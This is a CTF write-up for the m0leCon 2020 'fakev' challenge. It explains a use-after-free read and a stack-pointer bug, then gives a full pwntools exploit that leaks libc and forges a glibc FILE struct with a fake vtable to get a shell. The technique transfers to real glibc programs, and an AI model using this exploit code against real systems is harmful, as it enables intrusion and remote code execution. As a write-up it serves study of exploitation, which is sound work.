 # m0leCon CTF 2020 Teaser

## fakev

This challenge was solved by [@korniltsev](https://ctftime.org/user/54962),
[@mostobriv](https://ctftime.org/user/25913),
[@n00bie](https://ctftime.org/user/50936) and me (on behalf of [Corrupted
Pwnis](https://ctftime.org/team/87386)).

Writeup will not be super detailed, but rather brief overview of the solution.

`fakev` service allows us to open up to 9 files which are organized into a
linked list of the following structure:

```cpp  
struct node_t {  
   FILE *file;  
   struct node_t *next;  
};  
```

Where `file` is a pointer into the file structure of the corresponding file.
Also, we're able to close and read content of these files (write isn't
implemented).

Basically, there are 2 vulns. The first one is UAF in reading file content (we
can read the file content of the already closed file). The second one is
placed inside of `add` function. When we create 9th file, service allocates
new `struct node_t` for this file, but doesn't use it. Instead, it assigns
stack address into `next` field of the previously opened file:

```cpp  
 new_node = (node_t *)malloc(0x10uLL);  
 if ( !new_node )  
 {  
   perror("Couldn't alloc");  
   exit(1);  
 }  
 node->next = (node_t *)&stac;;                // set next to stack  
 node->next->file = (_QWORD *)fp;  
 node->next->next = 0LL;  
```

If we can control stack value, then we're able to change `next` into
controlled `struct node_t` with controlled `file` field. In `get_int` function
input that user supplies is then saved into the global variable (address of
this variable is known because of disabled `PIE`).

Hence, attack vector is the next:

1. Leak libc address (will be explained below)  
2. Change `next` field of the last opened file with the controlled one (already explained)  
3. Point `file` into global variable which is controlled (already explained)  
4. Call `fclose` on the `fake file` and get the shell (will be explained below).

The rest we need to do is to leak libc address and hijack the control flow
when `fclose` is called on the fake file struct. Libc leaking can be done by
filling up `tcache[0xf0]` and then using the first vuln (UAF in reading) to
read content of the freed unsorted bin chunk.

Controlling the program flow after `fclose` is called can be done by forging
the vtable of the fake file struct. Of course, we can't just point it to any
fake vtable because of `_IO_vtable_check`. Fake vtable should be placed inside
of libc vtable section. After searching for the right function, we're faced
with `_IO_str_overflow`. Just satisfy the requirements and call arbitrary code
with controlled `rdi`.

```python  
from pwn import *

def open_file(io, idx, fake_idx=None):  
   io.sendlineafter(':', '1')  
   if fake_idx is not None:  
       io.sendafter(':', fake_idx)  
   else:  
       io.sendlineafter(':', str(idx))

def read_content(io, idx):  
   io.sendlineafter(':', '2')  
   io.sendlineafter(':', str(idx))

def close_file(io):  
   io.sendlineafter(':', '4')

def main():  
   libc = ELF('./libc.so.6')  
   io = remote('challs.m0lecon.it', 9013)

   for idx in range(1, 9):  
       open_file(io, idx)  
   for idx in range(8):  
       close_file(io)  
log.info('tcache[0xf0] is filled up')  
  
   read_content(io, 1)  
   libc_arena = u64(io.recvn(17)[9:])  
   libc_base  = libc_arena - 0x3ebca0  
  
   log.success('libc_arena @ ' + hex(libc_arena))  
   log.success('libc_base  @ ' + hex(libc_base))

   for idx in range(1, 9):  
       open_file(io, idx)  
   open_file(io, 1)

   vtable  = libc_base + 0x3e82a0  
   rdi     = libc_base + next(libc.search('/bin/sh'))  
   system  = libc_base + libc.symbols['system']  
  
   fake_file = ''  
   fake_file += p64(0x2000)        # flags  
   fake_file += p64(0)             # _IO_read_ptr  
   fake_file += p64(0)             # _IO_read_end  
   fake_file += p64(0)             # _IO_read_base  
   fake_file += p64(0)             # _IO_write_base  
   fake_file += p64((rdi-100)/2)   # _IO_write_ptr  
   fake_file += p64(0)             # _IO_write_end  
   fake_file += p64(0)             # _IO_buf_base  
   fake_file += p64((rdi-100)/2)   # _IO_buf_end  
   fake_file += p64(0)             # _IO_save_base  
   fake_file += p64(0)             # _IO_backup_base  
   fake_file += p64(0)             # _IO_save_end  
   fake_file += p64(0)             # _markers  
   fake_file += p64(0)             # _chain  
   fake_file += p64(0)             # _fileno  
   fake_file += '\xff'*8  
   fake_file += p64(0)  
   fake_file += p64(0x602110)

   fake_file += '\xff'*8  
   fake_file += p64(0)  
   fake_file += p64(0x602108) # file  
   fake_file += p64(0)        # next  
   fake_file += p64(0)  
   fake_file += p64(0)  
   fake_file += p64(0)  
   fake_file += p64(0)  
   fake_file += p64(0)  
   fake_file += p64(vtable-0x3a8-0x88) # vtable  
   fake_file += p64(system)            # alloc_buffer

   payload = ''.join([  
       '4'.ljust(8, '\x00'),  
       fake_file  
   ]).ljust(0x100, '\x00')  
   io.send(payload)  
   log.success('embeded fake file struct into linked list')  
log.info('triggering fclose on fake file struct...')  
  
   io.sendline('cat flag.txt')

   io.interactive()

if __name__ == '__main__':  
   main()  
```

> ptm{pl4y1ng_w17h_5t4cks_4nd_f1l3s_f0r_fun_4nd_pr0f}

Original writeup (https://github.com/merrychap/ctf-
writeups/tree/master/2020/m0leCon/fakev).